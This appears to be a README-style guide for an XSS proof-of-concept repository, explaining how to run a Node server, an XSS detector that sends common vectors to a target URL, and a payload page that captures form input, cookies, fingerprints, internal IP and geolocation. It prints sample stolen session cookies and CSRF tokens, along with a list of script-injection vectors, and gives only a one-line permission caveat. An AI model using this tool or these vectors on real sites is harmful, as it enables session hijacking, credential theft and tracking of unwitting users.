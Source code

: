 Proof of Concept (PoC) Guide
Step 1: Setting Up the Environment

    Clone the Repository:

git clone <repository-url>
cd xss-poc

Install Dependencies:

npm install express body-parser

Configure the Host:

    Open server.js, xss_payload.html, and xss_detector.html in a text editor.
    Change the host variable to your own website or IP address.

Example:

    const host = 'your-website.com'; // Change this to your own website

Step 2: Running the Server

    Start the Server:

node server.js

You should see a message indicating that the server is running:

    Server running at http://your-website.com:3000

Step 3: Using the XSS Detector

    Open the XSS Detector:
        Open xss_detector.html in a web browser.

    Enter the URL to Test:
        In the input field, enter the URL of the website you want to test for XSS vulnerabilities.
        Click the "Test for XSS" button.

    Observe the Results:
        The script will test the URL with various XSS vectors and display the results on the page.
        If a potential XSS vulnerability is found, it will be indicated in the results.

Step 4: Using the XSS Payload

    Open the XSS Payload:
        Open xss_payload.html in a web browser.

    Interact with the Form:
        Fill out the login form with some sample data.
        Observe the browser's console and the server's terminal for captured data.

    Analyze the Captured Data:
        The payload will capture various types of data, including user agent, screen resolution, plugins, cookies, and more.
        This data will be sent to the server and logged in the terminal.

Example Outputs
Server Terminal Output

When you interact with the form in xss_payload.html, you should see output in the server terminal similar to this:

Captured Headers: {
  'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
  'content-type': 'application/json',
  'accept': '*/*',
  'origin': 'http://your-website.com:3000',
  'referer': 'http://your-website.com:3000/xss_payload.html',
  'accept-encoding': 'gzip, deflate',
  'accept-language': 'en-US,en;q=0.9',
  'connection': 'close'
}
POST Body: {
  t: 'input',
  v: 'testuser',
  fp: {
    ua: 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
    lang: 'en-US',
    screen: '1920x1080',
    plugins: ['Chrome PDF Viewer', 'Shockwave Flash', ...],
    cookies: 'sessionid=abc123; csrftoken=xyz456'
  },
  ts: '2023-10-01T12:34:56.789Z',
  canvasFingerprint: 'data:image/png;base64,...',
  internalIP: '192.168.1.1',
  location: { latitude: 40.7128, longitude: -74.0060 }
}

XSS Detector Results

When you test a URL with xss_detector.html, you should see results similar to this:

Testing for XSS vulnerabilities...
Potential XSS vulnerability found with vector: <script>alert("XSS")</script>
No XSS vulnerability found with vector: <img src="x" onerror="alert('XSS')">
Potential XSS vulnerability found with vector: <svg/onload=alert("XSS")>
No XSS vulnerability found with vector: <body onload=alert("XSS")>
...

Conclusion

This PoC demonstrates how to set up and use the XSS detection and payload scripts. By following the steps outlined above, you can test for XSS vulnerabilities and analyze the captured data. Always ensure you have permission to test for vulnerabilities on a website.
